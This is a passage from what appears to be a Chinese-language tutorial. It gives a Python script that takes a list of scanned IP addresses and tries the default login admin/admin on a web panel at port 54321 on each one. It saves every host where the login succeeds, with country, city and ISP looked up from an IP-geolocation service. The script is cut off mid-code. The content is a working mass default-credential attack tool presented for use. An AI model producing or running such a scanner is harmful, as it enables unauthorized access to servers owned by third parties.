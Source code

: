 等它一会 (看你的 IP 有多少)

就会收获一个 results.txt 文件了，保存好给下一步！

### Python 测活
这是一段 Python3 的代码，将其保存到一个 `scan.py` 文件中

```python
import requests
from concurrent.futures import ThreadPoolExecutor

data = {
    'username': 'admin',
    'password': 'admin'
}

def get_ip_info(ip):
    url = f"http://ip-api.com/json/{ip}?fields=country,regionName,city,isp"
    try:
        response = requests.get(url, timeout=2)
        if response.status_code == 200:
            ip_info = response.json()
            country = ip_info.get('country', 'N/A')
            region = ip_info.get('regionName', 'N/A')
            city = ip_info.get('city', 'N/A')
            isp = ip_info.get('isp', 'N/A')
            return f"{country}, {region}, {city}, ISP: {isp}"
    except requests.exceptions.RequestException:
        pass
    return 'N/A'

def process_ip(ip):
    url = "http://" + ip + ":54321/login"
    try:
        r = requests.post(url, data=data, timeout=2)
        if r.status_code == 200:
            try:
                response_data = r.json()
                if isinstance(response_data, dict) and response_data.get("success"):
                    ip_info = get_ip_info(ip)
                    print(ip + ' Successful (' + ip_info + ')')
                    with open("result.txt", "a") as result:
                        result.write(ip + ' (' + ip_info + ')\n')
                else:
                    print(ip + ' Def')
            except ValueError:
                print("Invalid JSON response from:", url)
        else:
            print(ip + ' Def')
    except requests.exceptions.RequestException:
        try:
            url = "https://" + ip + ":54321/login"
            r = requests.post(url, data=data, timeout=2, verify=False)
            if r.status_code == 200:
                try:
                    response_data = r.json()
                    if isinstance(response_data, dict) and response_data.get("success"):
                        ip_info = get_ip_info(ip)
                        print(ip + ' Successful (' + ip_info + ')')
                        with open("result.txt", "a") as result:
                            result.write(ip + ' (' + ip_info + ')\n')
                    else:
                        print(ip + ' Def')
                except ValueError:
```